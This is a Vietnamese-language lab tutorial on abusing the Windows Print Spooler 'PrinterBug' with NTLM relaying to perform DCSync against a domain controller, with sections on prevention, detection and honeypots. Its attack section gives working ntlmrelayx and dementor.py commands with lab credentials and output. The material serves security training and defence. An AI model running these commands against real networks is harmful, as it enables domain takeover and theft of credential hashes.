





# Print Spooler & NTLM Relaying


## Description

[Print Spooler](https://learn.microsoft.com/en-us/windows/win32/printdocs/print-spooler) là một dịch vụ cũ được bật mặc định, kể cả trên các phiên bản Windows Desktop và Server mới nhất. Dịch vụ này trở thành một vector tấn công phổ biến khi vào năm 2018, `Lee Christensen` phát hiện ra `PrinterBug`. Các hàm [RpcRemoteFindFirstPrinterChangeNotification](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/b8b414d9-f1cd-4191-bb6b-87d09ab2fd83) và [RpcRemoteFindFirstPrinterChangeNotificationEx](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/eb66b221-1c1f-4249-b8bc-c5befec2314d) có thể bị lạm dụng để buộc một máy từ xa thực hiện kết nối tới bất kỳ máy nào khác mà nó có thể tới được. Hơn nữa, kết nối `reverse` (ngược) sẽ mang theo thông tin xác thực dưới dạng một `TGT`. Do đó, bất kỳ domain user nào cũng có thể ép (coerce) `RemoteServer$` xác thực tới bất kỳ máy nào. Quan điểm của Microsoft về `PrinterBug` là nó sẽ không được sửa, vì vấn đề này là "by-design" (theo thiết kế).

Tác động của `PrinterBug` là bất kỳ Domain Controller nào có bật Print Spooler đều có thể bị xâm nhập theo một trong các cách sau:

1) Relay kết nối tới một DC khác và thực hiện DCSync (nếu `SMB Signing` bị tắt).
2) Buộc Domain Controller kết nối tới một máy được cấu hình cho `Unconstrained Delegation` (`UD`) - việc này sẽ cache TGT trong bộ nhớ của UD server, có thể bị bắt/export bằng các công cụ như `Rubeus` và `Mimikatz`.
3) Relay kết nối tới `Active Directory Certificate Services` để lấy một certificate cho Domain Controller. Kẻ tấn công sau đó có thể dùng certificate đó bất cứ lúc nào để xác thực và giả làm Domain Controller (ví dụ, DCSync).
4) Relay kết nối để cấu hình `Resource-Based Kerberos Delegation` cho máy được relay. Sau đó ta có thể lạm dụng delegation để xác thực với tư cách bất kỳ Administrator nào tới máy đó.

---

## Attack

Trong đường tấn công này, ta sẽ relay kết nối tới một DC khác và thực hiện `DCSync` (tức là kỹ thuật xâm nhập đầu tiên được liệt kê). Để cuộc tấn công thành công, SMB Signing trên các Domain Controller phải bị tắt.

Để bắt đầu, ta sẽ cấu hình `NTLMRelayx` để chuyển tiếp (forward) mọi kết nối tới DC2 và cố thực hiện tấn công DCSync:

```shell-session
[!bash!]$ impacket-ntlmrelayx -t dcsync://172.16.18.4 -smb2support

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Protocol Client SMTP loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client SMB loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections
```



Tiếp theo, ta cần kích hoạt `PrinterBug` bằng máy Kali trong khi `NTLMRelayx` đang lắng nghe. Để kích hoạt kết nối ngược, ta sẽ dùng [Dementor](https://github.com/NotMedic/NetNTLMtoSilverTicket/blob/master/dementor.py) (khi chạy từ một máy không join domain, cần có credential của bất kỳ authenticated user nào, và trong trường hợp này, ta giả định rằng trước đó đã xâm nhập được Bob):

```shell-session
python3 ./dementor.py 172.16.18.20 172.16.18.3 -u bob -d eagle.local -p Slavi123

[*] connecting to 172.16.18.3
[*] bound to spoolss
[*] getting context handle...
[*] sending RFFPCNEX...
[-] exception RPRN SessionError: code: 0x6ab - RPC_S_INVALID_NET_ADDR - The network address is invalid.
[*] done!
```



Bây giờ, quay lại phiên terminal có `NTLMRelayx`, ta sẽ thấy DCSync đã thành công:



---

## Prevention

Print Spooler nên bị tắt trên tất cả các server không phải là server in ấn. Domain Controller và các server lõi khác không bao giờ nên có thêm vai trò/chức năng mở rộng làm tăng bề mặt tấn công hướng vào hạ tầng AD lõi.

Ngoài ra, có một tuỳ chọn để ngăn việc lạm dụng `PrinterBug` mà vẫn giữ dịch vụ chạy: khi vô hiệu hoá registry key `RegisterSpoolerRemoteRpcEndPoint`, mọi yêu cầu từ xa đến sẽ bị chặn; điều này hoạt động như thể dịch vụ bị tắt đối với remote client. Đặt registry key thành 1 là bật, còn 2 là tắt:



---

## Detection

Khai thác `PrinterBug` sẽ để lại dấu vết của các kết nối mạng hướng về Domain Controller; tuy nhiên, chúng quá chung chung để dùng làm cơ chế phát hiện.

Trong trường hợp dùng `NTLMRelayx` để thực hiện DCSync, không có event ID `4662` nào được sinh ra (như đã đề cập trong phần DCSync); tuy nhiên, để lấy hash với tư cách DC1 từ DC2, sẽ có một event logon thành công cho DC1. Event này bắt nguồn từ địa chỉ IP của máy Kali, chứ không phải Domain Controller, như ta có thể thấy dưới đây:



Một cơ chế phát hiện phù hợp luôn tương quan (correlate) tất cả các lần logon từ các server hạ tầng lõi với địa chỉ IP tương ứng của chúng (vốn phải tĩnh và được biết trước).

---

## Honeypot

Có thể dùng `PrinterBug` như một phương tiện để cảnh báo (alert) về hành vi đáng ngờ trong môi trường. Trong kịch bản này, ta sẽ chặn các kết nối ra (outbound) từ server của mình tới các cổng `139` và `445`; firewall phần mềm hoặc phần cứng đều có thể làm được điều này. Ngay cả khi việc lạm dụng có thể kích hoạt bug, các rule firewall sẽ không cho kết nối ngược đến được kẻ tấn công. Tuy nhiên, các kết nối bị chặn đó sẽ đóng vai trò là dấu hiệu bị xâm nhập cho blue team. Trước khi thực thi bất cứ điều gì liên quan đến exploit này, ta nên đảm bảo có đủ log và hiểu biết về môi trường của mình để chắc rằng các kết nối hợp lệ vẫn được cho phép (ví dụ, ta phải giữ các cổng đã nêu mở giữa các DC, để chúng có thể replicate dữ liệu).

Dù điều này có vẻ phù hợp để làm honeypot nhằm đánh lừa kẻ tấn công, ta nên thận trọng trước khi triển khai, bởi vì hiện tại, bug yêu cầu máy phải kết nối ngược lại ta, nhưng nếu một bug mới chưa biết được phát hiện, cho phép một dạng Remote Code Execution nào đó mà không cần kết nối ngược, thì điều này sẽ phản tác dụng lên chính ta. Do đó, ta chỉ nên cân nhắc tuỳ chọn này nếu ta là một tổ chức cực kỳ trưởng thành và có thể phản ứng kịp thời với alert cũng như vô hiệu hoá dịch vụ trên mọi thiết bị nếu một bug mới được phát hiện.
